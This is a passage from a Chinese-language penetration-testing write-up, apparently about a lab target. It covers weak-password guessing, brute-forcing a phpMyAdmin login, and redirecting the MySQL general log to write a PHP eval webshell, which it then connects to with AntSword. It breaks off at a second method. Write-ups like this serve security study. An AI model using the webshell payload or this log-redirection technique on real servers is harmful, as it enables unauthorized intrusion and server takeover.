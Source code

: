 可能只绑了127.0.0.1。可尝试更换工具继续爆破，或者直接猜解弱口令，这边比较简单，尝试几次后发现root,root可连接

![image-20210428134005557](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428134005557.png)



目录扫描，发现如下信息

![image-20210428114141798](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428114141798.png)

主要的发现有两个：phpmyadmin

​								  berifen.rar 

那么就有两个思路，第一个就是通过phpmyadmin来进行利用

使用phpmyadmin暴力破解工具，成功爆破出phpmyadmin的登录账密

![image-20210428131316298](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428131316298.png)



这里又有两种方法：1.select into outfile直接写shell

​								  2.修改日志文件写shelll

先看第一种，使用select into outfile前提条件

- 对web目录有写权限
- GPC关闭（能使用单引号）
- 有绝对路径（读文件可以不用，写文件必须）
- 没有配置 –secure-file-priv

查看权限 secure_file_priv 值为 NULL，不能使用 into outfile 方式写入 shell

![image-20210428134634786](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428134634786.png)

那么通过修改日志文件地址再写入shell,修改如下位置，第一行改为on,第二行改到之前获取到的绝对路径地址

![image-20210428134830761](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428134830761.png)

更改后如下

![image-20210428135023567](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428135023567.png)

之后通过select查询，插入一句话

```
SELECT '<?php eval($_POST["heria"]);?>'
```

执行成功

![image-20210428135158637](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428135158637.png)

直接蚁剑连接

![image-20210428135405759](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210428135405759.png)

第二种
